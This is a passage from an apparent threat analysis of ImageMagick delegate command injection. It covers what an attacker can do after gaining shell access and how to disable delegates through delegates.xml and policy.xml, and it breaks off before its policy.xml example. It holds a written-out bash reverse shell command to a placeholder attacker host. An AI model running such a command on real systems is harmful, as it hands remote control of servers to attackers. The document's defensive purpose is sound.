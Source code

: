     *   **Reverse Shell using `bash`:**

        ```bash
        bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1
        ```

        This command redirects standard input, output, and error of an interactive bash shell to a TCP socket connected to the attacker's IP and port.

    *   **Web Shell Upload (less common in this attack path, but possible):**  In some scenarios, an attacker might attempt to upload a web shell (e.g., a PHP script) if write access is achievable through command execution. However, reverse shells are generally more direct and effective in this context.

*   **Consequences of Shell Access:**  With shell access, the attacker has effectively compromised the server. They can:

    *   **Maintain Persistence:**  Install backdoors, create new user accounts, or modify system configurations to ensure continued access even after the initial vulnerability is patched.
    *   **Deep System Exploration:**  Thoroughly explore the file system, databases, and network configurations to identify and steal sensitive information.
    *   **Privilege Escalation (if possible):**  Attempt to escalate privileges to root or administrator level if the initial shell is running with lower privileges.
    *   **Use as a Bot in Botnet:**  Incorporate the compromised server into a botnet for distributed attacks.
    *   **Data Breach and System-Wide Compromise:**  Potentially lead to a full-scale data breach, complete system compromise, and significant financial and reputational damage.

### 5. Mitigation Strategies (Reiterated and Elaborated)

The following mitigation strategies are crucial to prevent delegate command injection vulnerabilities in ImageMagick:

*   **Disable Vulnerable Delegates in `delegates.xml`:**
    *   **Action:**  The most effective immediate mitigation is to disable or comment out vulnerable delegates in the `delegates.xml` configuration file.
    *   **Specific Delegates to Disable:**  Focus on delegates like `url:`, `ephemeral:`, `msl:`, `label:`, `import:`, `show:`, `file:`, and any others that involve external command execution, especially if they are not essential for your application's functionality.
    *   **Implementation:**  Locate `delegates.xml` (often in `/etc/ImageMagick-x/` or `/usr/local/etc/ImageMagick-x/` depending on installation) and comment out or remove the problematic delegate entries.  **Example:**

        ```xml
        <!--
        <delegate decode="url" command='"sh" -c "display \\"%u\\""'/>
        -->
        ```

*   **Utilize `policy.xml` to Restrict Delegates:**
    *   **Action:**  `policy.xml` provides a more granular control over ImageMagick's behavior. Use it to restrict delegate usage and define allowed delegates for specific operations or formats.
    *   **Implementation:**  Create or modify `policy.xml` (often in the same directory as `delegates.xml`).  Use `<policy>` tags to control delegate permissions. **Example:** To completely disable delegates:

